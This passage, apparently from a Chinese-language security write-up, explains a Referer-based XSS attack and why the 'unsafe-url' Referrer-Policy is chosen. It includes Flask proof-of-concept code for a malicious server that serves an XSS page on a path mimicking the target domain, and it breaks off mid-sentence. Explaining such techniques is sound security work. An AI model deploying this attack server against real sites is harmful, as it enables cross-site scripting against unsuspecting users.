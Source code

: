   
![file](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jnaibpiaylNsblwKMiamejsve8lA6JBlbHiaGiaUBIDQwG94rMfLiaCBK9p7Z7gVVffh5EVzo3hSqkG8WdA/640?wx_fmt=png&from=appmsg "")  
  
  
在我们的攻击场景中，目标是让 
```
Referer
```

  
 头部完整地包含我们的恶意 URL (
```
evil.com/target.co.uk/exploit.html
```

  
)，因此，我们必须选择 
```
unsafe-url
```

  
 这个策略。  
## PoC (概念验证) 代码  
  
使用下面这段简单的 Flask 代码快速搭建了恶意服务器：  

```
import requests
from bs4 import BeautifulSoup
import re
from urllib.parse import parse_qs, urlencode
from flask import Flask, make_response, jsonify, request, render_template
from flask_cors import CORS
from flask import Flask, render_template

app = Flask(__name__)

# 为两个不同的路径注册同一个处理函数
@app.route('/')
@app.route('/target.co.uk/evil.html')
def index():
    # 渲染 xss.html 模板文件
    response = make_response(render_template('xss.html', the_title='XSS POC'))
    # 设置关键的响应头
    response.headers[&#34;Referrer-Policy&#34;] = 'unsafe-url'
    return response


```

  
这段代码的作用是，当用户访问 
```
/target.co.uk/evil.html
```

  